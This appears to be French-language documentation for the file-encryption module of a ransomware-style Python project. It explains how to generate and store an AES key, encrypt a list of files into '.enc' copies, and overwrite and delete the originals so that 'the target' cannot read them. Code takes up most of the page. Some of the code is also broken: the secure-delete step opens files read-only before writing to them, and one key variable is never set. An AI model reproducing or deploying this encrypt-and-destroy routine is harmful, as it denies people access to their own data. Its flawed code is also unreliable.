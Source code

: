 ## Chiffrement des fichiers

Le chiffrement des fichiers se fait par le module encrypt_files.

### Génération de la clé AES

Voici le module pour générer la clé AES.
Ici, nous utilisons la librairie PyCryptodome pour générer une suite de bytes aléatoires que nous allons utiliser comme clé de chiffrement.
Ensuite, nous enregistrons cette clé dans un fichier keyfile.key afin de pouvoir la réutiliser pour chiffrer les fichiers et ensuite déchiffrer les fichiers.


```python
def save_key(key, keyfile_path):
    """Cette fonction permet d'enregistrer la clé générer dans un fichier afin de pouvoir la
    partager et la réutiliser pour chiffrement et déchiffrement du dossier

    Args:
        key: clé secrète AES
        keyfile_path: le fichier dans lequel sera enregistrée la clé
    """
    with open(keyfile_path, 'wb') as keyfile:
        keyfile.write(key)
    print(f"Clé enregistrée dans {keyfile_path}.")
    
def generate_key():
    key = get_random_bytes(32)
    key_file_path = "keyfile.key"
    save_key(key, key_file_path)
```


### Récupération de la clé AES

Ici, nous tentons tout d'abord de récupérer la clé générée au préablable en indiquant le chemin du fichier dans lequel est enregistré la clé (keyfile.key).
La fonction load_key tente d'ouvrir et lire ce fichier.
Si la fonction échoue, afin d'éviter un crash du programme, nous générons et enregistrons une nouvelle clé grâce à la fonction generate_key du module generate_key.

```python
def load_key(keyfile_path):
    with open(keyfile_path, 'rb') as keyfile:
        return keyfile.read()

keyfile_path = "keyfile.key"       
try:
    key = load_key(keyfile_path)
except Exception as e:
    generate_key()
```

### Chiffrement des fichiers
Ici, nous chiffrons les fichiers grâce à une itération sur chaque fichier, qui est ensuite chiffré avec la fonction encrypt_file.

La fonction encrypt_file prend en paramètres le chemin du fichier et la clé de chiffrement.
Nous ouvrons d'abord le fichier avec python en mode binaire (c'est la signification de l'option 'rb').
C'est important d'ouvrir le fichier en mode binaire parce qu'AES ne peut chiffrer que des octets et non du texte. Nous enregistrons ainsi le contenu du fichier sous forme de bytes dans la variable file_data.
Ensuite nous créons un nouveau object AES de la lirairie PyCryptodome en mode CBC (Cipher Block Chaining), qui doit nous permettre de chiffrer le fichier.

Explication des fonctions de la librairie : 

pad()
Le padding est nécessaire parce qu'AES travaille avec des blocs de taille fixe (16 octets pour AES). Si les données du fichier ne sont pas un multiple de la taille de bloc, la fonction pad ajoute des octets supplémentaires pour compléter le dernier bloc.

cipher.iv
Le mode CBC nécessite un vecteur d'initialisation (IV) pour fonctionner. Il est ajouté au début du texte chiffré. L'IV permet une part d'aléatoire au chiffrement.

Aisni, la fonction encrypt_file retourne une combinaison du vecteur d'initialisation (cipher.iv), qui occupe les 16 premiers octets et du texte chiffré (cipher.encrypt(...)) qui suit.

```python
def encrypt_file(file_path, key):
    with open(file_path, 'rb') as f:
        file_data = f.read()
    cipher = AES.new(key, AES.MODE_CBC)
    ciphertext = cipher.iv + cipher.encrypt(pad(file_data, AES.block_size))
    return ciphertext

encrypted_files = {}
for file_path in files_to_encrypt:
    ciphertext = encrypt_file(file_path, key)
    encrypted_file_path = file_path + ".enc"
    with open(encrypted_file_path, 'wb') as f:
        f.write(ciphertext)
    encrypted_files[file_path] = encrypted_file_path
```

### Suppression des fichiers originaux pour empêcher la lecture

Enfin, nous supprimons les fichiers d'origine pour empêcher la lecture par la cible.
D'abord, nous récupérons la taille du fichier en octets (nombre total d'octets dans le fichier).
Cette information est nécessaire pour savoir combien de données aléatoires doivent être écrites pour écraser complètement le fichier. 
os.urandom(file_size) génère ensuite une séquence d'octets aléatoires de longueur égale à file_size.
Ces octets sont cryptographiquement sûrs, ce qui rend leur récupération extrêmement difficile. Puis, f.write écrit les octets générés directement dans le fichier, remplaçant son contenu existant. Cela garantit que l'ancien contenu est écrasé avant que le fichier ne soit supprimé.
os.remove(file_path) supprime enfin le fichier du système de fichiers après écrasement de son contenu.


```python
def secure_delete(file_path):
    try:
        with open(file_path, 'rb') as f:
            file_size = os.path.getsize(file_path)
            f.write(os.urandom(file_size))
        os.remove(file_path)
    except Exception as e:
        print(f"Erreur lors de la suppression sécurisée de {file_path}: {e}")
        
secure_delete(file_path)
```
